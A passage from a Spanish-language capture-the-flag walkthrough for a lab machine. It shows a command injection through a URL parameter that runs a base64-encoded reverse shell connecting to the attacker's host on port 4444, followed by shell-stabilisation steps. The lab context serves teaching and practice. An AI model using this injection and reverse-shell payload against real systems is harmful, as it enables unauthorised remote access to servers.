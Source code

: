Ahora, inyectaremos esta cadena en el parámetro `shadow` de la siguiente manera:

`http://172.17.0.2/?shadow=echo%20c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo= | base64 -d | bash`

Esto decodificará la reverse shell y la ejecutará en el servidor, estableciendo una conexión con nuestra máquina atacante en la IP `172.16.1.131` y el puerto `4444`.



![alt text](ImagenesMaquinaCandy/Pasted%20image%2020240830161001.png)

Ahora, en el parámetro `shadow`, enviaremos nuestra inyección con el siguiente formato:
`http://172.17.0.2/?shadow=echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjEuMTMxLzQ0NDQgMD4mMQo=%22%20|base64%20-d%20|bash`

Con esto, conseguimos establecer una reverse shell y obtener acceso al servidor.



![alt text](ImagenesMaquinaCandy/Pasted%20image%2020240830161153.png)

## Tratamiento de la TTY

**Para trabajar de manera mas cómoda haremos lo siguiente:**
Una vez estemos dentro ejecutamos el siguiente comando: `script /dev/null -c bash`
